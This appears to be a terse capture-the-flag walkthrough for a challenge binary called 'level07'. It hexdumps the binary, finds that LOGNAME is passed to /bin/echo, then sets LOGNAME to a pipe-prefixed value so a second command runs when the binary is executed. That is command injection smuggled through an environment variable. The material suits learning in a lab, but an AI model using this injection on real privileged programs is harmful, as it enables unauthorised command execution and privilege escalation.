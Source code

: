 ./level07
-> level07

hexdump -C level07
-> 00000680  4c 4f 47 4e 41 4d 45 00  2f 62 69 6e 2f 65 63 68  |LOGNAME./bin/ech|

env 
-> LOGNAME=level07

export LOGNAME="|getname"

./level07